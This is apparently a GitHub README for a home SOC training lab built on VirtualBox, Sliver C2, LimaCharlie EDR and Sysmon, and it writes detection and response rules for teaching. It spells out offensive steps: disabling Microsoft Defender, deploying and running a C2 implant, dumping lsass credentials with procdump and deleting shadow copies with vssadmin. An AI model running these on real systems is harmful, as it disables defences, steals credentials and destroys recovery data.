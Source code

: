 # SOC-MOCK
## Objective 
![Image](.png)
This project aimed to build a realistic Security Operations Center (SOC) training environment focusing on practical skills for detecting and responding to cyber threats.
- Advanced threat detection tools like Sysmon and LimaCharlie EDR were deployed for real-time analysis
- Adversary techniques were simulated, and threat responses were automated to stay ahead of potential risks
- YARA rules were integrated to enhance malware detection capabilities
<br><br>

## Components

- **VirtualBox**: Used for creating and managing virtual machines
- **Ubuntu Server VM**: Used to deploy the Sliver C2 framework, which acts as a simulated attacker tool
- **Windows VM**: Used as victim endpoint device
- **LimaCharlie EDR**: An EDR platform used to collect, analyze logs and investigate telemetry from the Windows VM
- **Sliver C2**: A simulated attacker tool used to create a Command & Control (C2) server on the Ubuntu VM
- **YARA Rules**: Specific sets of instructions used to identify malware based on patterns
- **Sysmon**: Windows system service used to monitor and log system activity to the event log
- **VirusTotal**: A service for analyzing suspicious files and URLs for malware
- **NAT Network**: Configured in VirtualBox for network simulation

<details>
  <summary><h2><b>Section 1: Setting up the Virtual Environment</b></h2></summary>
  This section will guide through the setup of virtual environment using VirtualBox (If you want you, can use VMware as well). Configure a NAT network and install two virtual machines – one for Ubuntu Server and another for a Windows 10. <br><br>

   **Step 1: Download and setup Virtualbox**:  
    You can download Virtualbox from here. Setup is pretty straightforward
    <br><br>
   **Step 2: Create a New VM for Windows 10**:  
   Next, set up a new virtual machine in VirtualBox for Windows 10.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 50 GB
    <br><br>
    
   **Step 3: Create a New VM for Ubuntu Server**:  
    Now, set up a new virtual machine in VirtualBox for Ubuntu Server.
  - **Create it with following minimum specs:**
   - RAM: Approx 2 GB
   - Processors: 2 CPU cores
   - Hard Disk Storage: 20 GB
   - During OS install, **leave defaults as is**
  ![Image](https://imgur.com/GDfOZmg.png)
    <br><br>
  - After installation it should look like this:
  ![Image](https://imgur.com/9VNGxVp.png)
    <br><br>
       
   **Step 4: Configure Windows VM**:  
    Permanently disable Microsoft Defender so it doesn’t interfere with the fun stuff we’re planning. This is pretty tricky (especially in Windows 11) as Defender will turn itself back on.
1. Disable Tamper Protection
  - Go to "Windows Security"
  - Click “Virus & threat protection”
  - Under “Virus & threat protection settings” click “Manage settings”
  - Toggle OFF the “Tamper Protection” switch. When prompted, click “Yes”
![Image](https://imgur.com/iTuPTwi.png)
  - Toggle every other option OFF as well
2. Permanently Disable Defender via Group Policy Editor
  - Click the “Start” menu icon
  - Type “cmd” into the search bar within the Start Menu
  - Right+Click “Command Prompt” and click “Run as administrator”
  - Run the following command
```
gpedit.msc
```
  - Inside the Local Group Policy Editor
  - Click Computer Configuration > Administrative Templates > Windows Components > Microsoft Defender Antivirus
  - Double-click “Turn off Microsoft Defender Antivirus”
  - Select “Enabled” (If you enable this policy setting, Defender doesn't run, and will not scan for malware or other potentially unwanted software)
  - Click "Apply"
![Image](https://imgur.com/9bsP5Lf.png)
3. Permanently Disable Defender via Registry
  - From the same administrative cmd, copy/paste this command and press Enter
<br>

```
REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

</br>

4. Prepare to boot into Safe Mode to disable all Defender services
  - Click the “Start” menu icon
  - Type “msconfig” into the search bar
  - Go to “Boot” tab and select “Boot Options”
  - Check the box for “Safe boot” and “Minimal”
![Image](https://imgur.com/0K1OBWq.png)
  - Click Apply and OK
  - System will restart into Safe Mode

5. Now, in Safe Mode, we’ll disable some services via the Registry
  - Press the “Win + R"
  - Type “regedit” into the search bar and hit Enter
  - For each of the following registry locations, browse to the key, find the “Start” value, and change it to "4"
![Image](https://imgur.com/IWskQZt.png)
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Sense
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdBoot
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WinDefend
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisDrv
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdNisSvc
  - Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\WdFilter

6. Leave Safe Mode the same way we got into it
  - Uncheck the box for “Safe boot”
  - System will restart into normal desktop environment, hopefully Defender-free
    <br><br>
</details>

<details>
  <summary><h2><b>Section 2: Install Sysmon in Windows VM</b></h2></summary>

This is actually optional in this project, but it’s a must-have analyst tool for getting very granular telemetry on your Windows endpoint. You can read more about it
[here](https://www.learn.microsoft.com/en-us/sysinternals/downloads/sysmon/). 

1. **Launch an Administrative PowerShell console for the following commands:**

- Click the “Start” menu icon
- Type “Powershell” into the search bar within the Start Menu
- Click “Windows PowerShell” and click “Run as administrator”

2. **Download Sysmon with the following command:**
```
Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip
```
3. **Unzip sysmon.zip**
```
Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon
```
4. **Download SwiftOnSecurity’s Sysmon config**
```
Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
5. **Install Sysmon with Swift’s config**
```
C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml
```
![Image](https://imgur.com/eUuEwgD.png)

6. **Check Sysmon64 service is installed and running**
```
Get-Service sysmon64
```
7. **Check for the presence of Sysmon Event Logs**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10
```
  <br><br>
</details>

<details>
  <summary><h2><b>Section 3: Install LimaCharlie EDR on Windows VM</b></h2></summary>

  [LimaCharlie](https://www.limacharlie.io/) 
  is a very powerful SecOps Cloud Platform. It not only comes with a cross-platform EDR agent, but also handles all of the log shipping/ingestion and has a threat detection engine. In free version you can create for up to two systems which is great for projects like this.

1. **Create a free LimaCharlie account**
- LimaCharlie will ask you a few questions about your role. Answer however you like.

2. **Create an organization**

Name: *Anything*

Data Residency Region: *Closest to you*

Demo Configuration Enabled: *Disabled*

Template: *Extended Detection & Response Standard*
![Image](https://imgur.com/T1INyuQ.png)

3. **Click "Add a Sensor"**

- Select Windows
- Provide a description such as: Windows VM - Lab
- Click Create
- Select the Installation Key we just created
![Image](https://imgur.com/ba1VqUg.png)
- Select the "x86-64 (.exe)" sensor
![Image](https://imgur.com/mP2CI8j.png)



- In Windows VM, open an Administrative PowerShell and paste the following commands:
```
cd C:\Users\User\Downloads
```
```
Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe
```
![Image](https://imgur.com/LGFmfRt.png)
- Shift into a standard admin cmd

- Copy the install command provided by LimaCharlie which contains the installation key. Paste this command into your open terminal.
![Image](https://imgur.com/D0UvIR4.png)

- If everything worked correctly, in the LimaCharlie web UI you should see the sensor reporting in


4. **Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry**

- In the left-side menu, click “Artifact Collection”
- Next to “Artifact Collection Rules” click “Add Rule”
```
Name: windows-sysmon-logs
Platforms: Windows
Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*
Retention Period: 10
```
- Click “Save Rule”
![Image](https://imgur.com/VgxX27Q.png)

LimaCharlie will now start shipping Sysmon logs which provide a wealth of EDR-like telemetry, some of which is redundant to LC’s own telemetry, but Sysmon is still a very power visibility tool that runs well alongside any EDR agent.

The other reason we are ingesting Sysmon logs is that the built-in Sigma rules we previously enabled largely depend on Sysmon logs as that is what most of them were written for.

> Now would be a good time to Snapshot your Windows VM
</details>

<details>
  <summary><h2><b>Section 4: Setup Attack System </b></h2></summary>
  I recommend using an SSH client to access the Ubuntu VM so that you can easily copy/paste commands.

1. **Open your CLI**

```
ssh username@[Linux_VM_IP]
```

2. **Now, from within this new SSH session, proceed with the following instructions to setup our attacker C2 server. First, gain access to the root shell to make life easier.**

```
sudo su
```

3. **Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.**

- Download Sliver Linux server binary
```
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
```
- Make it executable
```
chmod +x /usr/local/bin/sliver-server
```
- install mingw-w64 for additional capabilities
```
apt install -y mingw-w64
```
- Create our future working directory
```
mkdir -p /opt/sliver
```
![Image](https://imgur.com/LCfhKok.png)

> Explore the LimaCharlie web interface to learn more about what it can do!
</details>
<details>
  <summary><h2><b>Section 5: Generate the Command & Control payload </b></h2></summary>
  Either from your SSH session or directly from your Ubuntu Server, take the following actions:
  <br></br>

  1. **Access root shell and change dir to Sliver install**

```
sudo su
cd /opt/sliver
```

  2. **Launch Sliver server**

```
sliver-server
```
![Image](https://imgur.com/8DsuXyT.png)
  3. **Generate C2 session payload. Use your Linux VM’s IP address**
```
generate --http [Linux_VM_IP] --save /opt/sliver
```
![Image](https://imgur.com/EN108X6.png)
  4. **Confirm the new implant configuration**
```
implants
```
  5. **Now we have a C2 payload we can drop onto our Windows VM. Exit Sliver for now.**
```
exit
```

  6. **To easily download the C2 payload from the Linux VM to the Windows VM, use this python trick that spins up a temp web server**
```
cd /opt/sliver
python3 -m http.server 80
```
![Image](https://imgur.com/gQG90re.png)
  7. **Switch to the Windows VM and launch an Admin PowerShell console to download the implant from Ubuntu server**
```
IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe
```
![Image](https://imgur.com/iU5lry0.png)
> Now would be a good time to snapshot your Windows VM, before we execute the malware.

</details>
<details>
  <summary><h2><b>Section 6: Start Command & Control Session  </b></h2></summary>

1. **Now that the payload is on the Windows VM, switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback**

- Terminate the python web server by pressing "Ctrl + C"
- Now, relaunch Sliver
```
sliver-server
```
- Start the Sliver HTTP listener
```
http
```
![Image](https://imgur.com/2RqMkmX.png)
- If you get an error starting the HTTP listener, reboot the VM

2. **Return to the Windows VM and execute the C2 payload from its download location using the same admin PowerShell prompt**
```
C:\Users\User\Downloads\<your_C2-implant>.exe
```
![Image](https://imgur.com/N8Z5Xo1.png)
3. **Within a few moments, you should see your session check in on the Sliver server**
![Image](https://imgur.com/1Rs38Xn.png)
4. **Verify your session in Sliver, and note its Session ID**
```
sessions
```
5. **To interact with your new C2 session, type the following command into the Sliver shell**
```
use [session_id]
```

> c0ngratulations! you pwned your Windows VM
6. **Now, run a few basic commands**

- To get info about the session
```
info
```
- Find out the user and learn his privileges
```
whoami
```
![Image](https://imgur.com/IO9bJZi.png)
```
getprivs
```
![Image](https://imgur.com/Krpmh17.png)
> If your implant was properly run with Admin rights, you’ll notice you have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” — if you don't see these privileges, make sure you ran the implant from an Admin command prompt
- Identify implant’s working dir
```
pwd
```
- Examine network connections occurring on the remote system
```
netstat
```
- Identify running processes on the remote system
```
ps -T
```
![Image](https://imgur.com/AIMklUP.png)
> Notice that Sliver highlights its own process in green and any defensive tools in red. This is how attackers become aware of what security products a victim system using.
  </details>

<details>
  <summary><h2><b>Section 7: Observe EDR Telemetry</b></h2></summary>

1. **Hop into the LimaCharlie web UI and check out some basic features**

- Click “Sensors” on left menu

- Click your active Windows sensor


- On the new left-side menu for this sensor, click “Processes”


> Explore what is returned in the process tree. Hover over some of the icons to see what they represent

![Image](https://imgur.com/GZ9FZm0.png)
Knowing common processes on a system is very important. As professionals say at SANS, *“you must know normal before you can find evil”* Check out this [“Hunt Evil”](https://www.sans.org/posters/hunt-evil/) poster from SANS.


2. **One of the easiest ways to spot unusual processes is to simply look for ones that are NOT signed**
- The C2 implant shows as not signed, and is also active on the network.

![Image](https://imgur.com/2frmDNQ.png)

- Notice how quickly we are able to identify the destination IP this process is communicating with.

3. **Now click the “Network” tab on the left-side menu**

- Explore what is returned in the network list. "Ctrl+F" to search for your implant name

4. **Now click the “File System” tab on the left-side menu**

- Browse to the location we know our implant to be running from

![Image](assets/3.gif)

5. **Inspect the hash of the suspicious executable by scanning it with VirusTotal**

> “*Item not found*” on VirusTotal doesn't mean that this file is innocent, it just might not that scanned before. This makes sense because you just generated this payload, so of course it’s not likely to be seen by VirusTotal before. So, if you already suspect a file to be possible malware, but VirusTotal has never seen it before, trust your instincts. This actually makes a file even more suspicious because nearly everything has been seen by VirusTotal, so your sample may have been custom-crafted/targeted.

6. **Click “Timeline” on the left-side menu of our sensor. This is a real-time view of EDR telemetry + event logs streaming from this system**

- Read about the various EDR events in the LimaCharlie docs.

- Filter your timeline with known IOCs (indicators of compromise) such as the name of your implant or the known C2 IP address

- If you scroll back far enough, should be able to find the moment your implant was created on the system, and when it was launched shortly after, and the network connections it created immediately after

![Image](https://imgur.com/pV7Z8qm.png)

7. **Examine the other events related to your implant process** 

- you’ll see it is responsible for other events such as “SENSITIVE_PROCESS_ACCESS” from when you enumerated your privileges in an earlier step. This particular event will be useful later on when you will craft your first detection rule

> I recommend spending more time exploring LimaCharlie telemetry to familiarize yourself not only with the known-bad events, but also the abundance of “normal” things happening on your “idle” Windows VM.

  </details>

<details>
  <summary><h2><b>Section 8: Wear the Black Hat  </b></h2></summary>

Go back into Sliver C2 session and do some shady stuff that you would be able to detect.

1. **Drop into a C2 session on your victim**

2. **Run the following commands within the Sliver session on your victim host**

- First, we need to check our privileges to make sure we can perform privileged actions on the host
```
getprivs
```
- A powerful command to check privilege for *SeDebugPrivilege* which opens the door for many things. If you’ve got that, we’re good. If you don’t, you need to relaunch your C2 implant with administrative rights

- Next, do something adversaries love to do for stealing credentials on a system — *dump the lsass.exe process from memory.* Read more about this technique [here](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)
```
procdump -n lsass.exe -s lsass.dmp
```
This will dump the remote process from memory, and save it locally on your Sliver C2 server.

> NOTE: This will fail if you did not launch your C2 payload with admin rights on the Windows system. Even if it fails it will generate telemetry need.

2. **Now Let’s Detect It**

Now, switch over to LimaCharlie to find the relevant telemetry

- Since *lsass.exe* is a known sensitive process often targeted by credential dumping tools, any good EDR will generate events for this

- Go to "Timeline" of your Windows VM sensor and use the “Event Type Filters” to filter for “SENSITIVE_PROCESS_ACCESS” events.
There will likely be many of these, but pick any one of them as there isn’t much else on this system that will be legitimately accessing "lsass"
![Image](https://imgur.com/Su8gSsG.png)


- Now that we know what the event looks like when credential access occurred, we have what we need to craft a detection & response (D&R) rule that would alert anytime this activity occurs
![Image](https://imgur.com/mNWqOEt.png)
- Click the button in the screenshot to begin building a detection rule based on this event

- In the “Detect” section of the new rule, remove all contents and replace them with this
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
![Image](https://imgur.com/oxRKaBy.png)
- We’re specifying that this detection should only look at *"SENSITIVE_PROCESS_ACCESS"* events where the victim or target process ends with "lsass.exe"

- In the “Respond” section of the new rule, remove all contents and replace them with this
```
action: report
name: LSASS access
```
- We’re telling LimaCharlie to simply generate a detection “report” anytime this detection occurs. We could ultimately tell this rule to do all sorts of things, like terminate process chain, etc.

- Now let’s test our rule against the event we built it for. Lucky for us, LimaCharlie carried over that event it provides a quick and easy way to test the D&R logic. Click “Target Event” below the D&R rule you just wrote. Here you will see the raw event we observed in the timeline earlier

- Scroll to the bottom of the raw event and click “Test Event” to see if our detection would work against this event.
![Image](https://imgur.com/W00C0rY.png)
- Notice that we have a “Match” and the D&R engine tells you exactly what it matched on.
![Image](https://imgur.com/mM1Vae5.png)

- Scroll back up and click “Save Rule” and give it the name “LSASS Accessed” and be sure it is enabled

3. **Return to your Sliver server console, back into your C2 session, and rerun same *"procdump command"**

- After rerunning the procdump command, go to the “Detections” tab on the LimaCharlie main left-side menu.
![Image](https://imgur.com/buIAvmX.png)

> Congratulations! You’ve just detected a threat with your own detection signature! Expand a detection to see the raw event

![Image](https://imgur.com/FZFn6xt.png)

- Notice you can also go straight to the timeline where this event occurred by clicking “View Event Timeline” from the Detection entry
  </details>

  <details>
  <summary><h2><b>Section 9: Blocking Attacks</b></h2></summary>
Wouldn’t it be great if we could block the threat rather than just generate an alert?

Craft a rule that would be very effective at disrupting a ransomware attack by looking for a predictable action that ransomware tends to take: [Deletion of Volume Shadow Copies](https://redcanary.com/blog/its-all-fun-and-games-until-ransomware-deletes-the-shadow-copies/)

> Why This Rule? "Volume Shadow Copies" provide a convenient way to restore individual files or even an entire file system to a previous state which makes it a very attractive option for recovering from a ransomware attack. For this reason, it’s become very predictable that one of the first signs of an impending ransomware attack is the "deletion of volume shadow copies".

A basic command that would accomplish this
```
vssadmin delete shadows /all
```

1. **Get back into Sliver C2 shell**

> If you have issues reestablishing your HTTP listener, try rebooting your Ubuntu system

In your Sliver C2 shell on the victim, run this command
```
shell
```
- When prompted with “This action is bad OPSEC, are you an adult?” type "Yes" if you are an adult, "No" if you are not :) and hit enter

In the new System shell, run the following command:
```
vssadmin delete shadows /all
```
- The output is not important as there may or not be Volume Shadow Copies available on the VM to be deleted, but running the command is sufficient to generate the telemetry we need

Run this command to verify we still have an active system shell:
```
whoami
```
2. **Browse over to LimaCharlie’s detection tab to see if default Sigma rules picked up on our noise**
![Image](https://imgur.com/U0tHpxW.png)

- Click to expand the detection and examine all of the metadata contained within the detection itself. One of the great things about Sigma rules is they are enriched with references to help understand why the detection exists in the first place

- Click "View Event Timeline" to see the raw event that generated this detection
![Image](https://imgur.com/v8rFY9i.png)
- Craft a Detection & Response (D&R) rule from this event
![Image](https://imgur.com/Cjq9dBC.png)
From this D&R rule template, we can begin crafting our response action that will take place when this activity is observed. Add the following *"Response"* rule to the Respond section:
```
- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - <<routing/parent>>
```
- The “action: report” section simply creates a Detection report to the “Detections” tab

- The “action: task” section is what is responsible for killing the parent process responsible with "deny_tree" for the *vssadmin delete shadows /all command*

- Save your rule with the following name: vss_deletion_kill_it

3. **Test it**

Now return to Sliver C2 session, and rerun the command and see what happens.

Run the command to delete volume shadows:
```
vssadmin delete shadows /all
```
- The command should succeed, but the action of running the command is what will trigger our D&R rule
![Image](https://imgur.com/a4Dhfxc.png)

Now, to test if our D&R rule properly terminated the parent process, check to see if you still have an active system shell by rerunning the *"whoami"* command:
```
whoami
```
- If D&R rule worked successfully, the system shell will hang and fail to return anything from the *whoami* command, because the parent process was terminated


> Note, you also may receive output such as “Shell Exited” — this is functionally the same thing as it hanging and providing no output. This is effective because in a real ransomware scenario, the parent process is likely the ransomware payload or lateral movement tool that would be terminated in this case
  </details>

  <details>
  <summary><h2><b>Section :  </b></h2></summary>

  </details>